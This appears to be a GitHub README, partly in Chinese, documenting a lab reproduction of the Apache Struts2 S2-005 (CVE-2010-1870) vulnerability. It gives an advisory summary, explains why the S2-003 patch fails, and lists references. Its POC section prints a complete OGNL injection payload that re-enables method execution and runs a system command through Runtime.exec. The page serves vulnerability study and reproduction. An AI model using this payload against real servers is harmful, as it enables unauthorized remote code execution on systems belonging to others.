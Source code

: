 # S2-005 Demo

## Summary

| Who should read this    | All Struts 2 developers                                      |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | Remote server context manipulation                           |
| Maximum security rating | Critical                                                     |
| Recommendation          | Developers should immediately upgrade to [Struts 2.2.1](http://struts.apache.org/download.cgi#struts221) or read the following solution instructions carefully for a configuration change to mitigate the vulnerability |
| Affected Software       | Struts 2.0.0 - Struts 2.1.8.1                                |
| Original JIRA Ticket    | [WW-3470](https://issues.apache.org/jira/browse/WW-3470), [XW-641](http://jira.opensymphony.com/browse/XW-641) |
| Reporter                | Meder Kydyraliev, Google Security Team                       |
| CVE Identifier          | [CVE-2010-1870](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1870) |
| Original Description    | http://blog.o0o.nu/2010/07/cve-2010-1870-struts2xwork-remote.html |

## Problem

S2-005的出现时因为官方对S2-003的修补的不完全而导致。官方通过增加安全配置禁止静态方法调用（allowStaticMethodAcces）和类方法执行（MethodAccessor.denyMethodExecution）等安全配置来修补，但是该方式可以通过OGNL表达式控制开关。引用一句话：

> S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

## Environment

| Struts2 Version | struts-2.0.11.2-all                                          |
| --------------- | ------------------------------------------------------------ |
| Server          | Tomcat 6.0.9 (Only in this version did I run payload successfully) |
| IDE             | idea 2020.1.1 ULTIMATE                                       |

## POC

<img src="img/image-20200824111849016.png" alt="image-20200824111849016" style="zoom:150%;" />

payload:

```java
?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'calc\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))
```

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-005](https://cwiki.apache.org/confluence/display/WW/S2-005)

